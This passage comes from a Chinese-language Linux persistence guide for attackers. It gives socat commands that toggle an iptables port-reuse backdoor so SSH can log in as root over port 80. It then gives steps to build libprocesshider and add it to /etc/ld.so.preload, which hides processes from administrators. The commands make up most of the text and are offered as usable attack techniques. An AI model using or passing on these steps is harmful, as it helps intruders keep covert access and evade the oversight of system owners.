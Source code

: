 利用方式：

~~~
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
~~~

![](./image/privilege-2-4.png)

 具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

### 0x07 进程隐藏

管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider

利用 LD_PRELOAD 来实现系统函数的劫持，实现如下

~~~
# 下载程序编译
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# 移动文件到/usr/local/lib/目录下
cp libprocesshider.so /usr/local/lib/
# 把它加载到全局动态连接局
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
~~~
